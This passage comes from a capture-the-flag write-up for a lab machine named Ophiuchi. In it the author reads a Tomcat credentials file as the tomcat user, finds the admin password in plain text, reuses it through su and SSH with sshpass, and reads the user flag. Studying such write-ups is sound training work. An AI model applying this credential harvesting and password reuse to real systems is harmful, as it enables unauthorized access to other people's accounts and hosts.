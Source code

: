 ```
-r-------- 1 admin admin   33 Oct 14 19:56 user.txt
lrwxrwxrwx 1 root  root     9 Jan  7 09:11 .viminfo -> /dev/null

```

As the tomcat user, the current home directory is `/opt/tomcat`:

```

tomcat@ophiuchi:~$ pwd
/opt/tomcat

```

`/opt/tomcat/conf/tomcat-users.xml` has the username and password for Tomcat:

```

<?xml version="1.0" encoding="UTF-8"?>
...[snip]...
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
        version="1.0">
<user username="admin" password="whythereisalimit" roles="manager-gui,admin-gui"/>
...[snip]...

```

The username here matches the username from the host. I’ll see if the password is reused. It is:

```

tomcat@ophiuchi:~$ su admin -
Password: 
admin@ophiuchi:/opt/tomcat$

```

I can also connect over SSH:

```

oxdf@parrot$ sshpass -p "whythereisalimit" ssh admin@10.10.10.227                                                                       ...[snip]...
admin@ophiuchi:~$

```

And grab `user.txt`:

```

admin@ophiuchi:~$ cat user.txt
0b6d65ef************************

```
